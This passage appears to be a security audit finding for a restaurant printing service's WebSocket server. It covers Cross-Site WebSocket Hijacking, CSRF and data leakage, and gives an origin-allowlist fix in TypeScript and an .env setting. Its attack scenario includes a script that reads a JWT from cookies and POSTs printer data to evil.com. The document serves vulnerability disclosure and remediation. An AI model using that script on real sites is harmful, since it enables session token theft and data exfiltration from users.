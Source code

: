 **Impact**:
- **Cross-Site WebSocket Hijacking (CSWSH)**: Malicious websites can connect to WebSocket
- **CSRF Attacks**: Authenticated users visiting attacker sites trigger unauthorized actions
- **Data Leakage**: Printer data exposed to any website

**Attack Scenario**:
```html
<!-- Attacker website: evil.com -->
<script>
const socket = io('http://victim-restaurant.com:3001/printing-ws', {
    auth: {
        token: document.cookie.match(/jwt=([^;]+)/)[1] // Steal JWT from cookie
    }
});

socket.on('printerStatusBulk', (printers) => {
    // Send stolen printer data to attacker server
    fetch('https://evil.com/log', {
        method: 'POST',
        body: JSON.stringify(printers)
    });
});
</script>
```

**Remediation**:
```typescript
// FIXED: Remove wildcard, use strict origin whitelist
const allowedOrigins = configService.get('CORS_ORIGINS')
    ? configService.get('CORS_ORIGINS').split(',').map(origin => origin.trim())
    : [
        'http://localhost:3000',
        'http://localhost:3001',
        'http://31.57.166.18:3000',
        'http://31.57.166.18:3001',
        // NO WILDCARDS - Add specific domains only
    ];

// Additional security: Validate origin in WebSocket connection
handleConnection(client: Socket, ...args: any[]) {
    const origin = client.handshake.headers.origin;

    if (origin && !allowedOrigins.includes(origin)) {
        this.logger.error(`❌ [CORS] Blocked connection from unauthorized origin: ${origin}`);
        client.disconnect(true);
        return;
    }

    // Continue with authentication...
}
```

**Environment Variable (.env)**:
```bash
# Use strict whitelist - NO wildcards
CORS_ORIGINS=http://localhost:3000,http://localhost:3001,http://31.57.166.18:3000,http://31.57.166.18:3001
```

---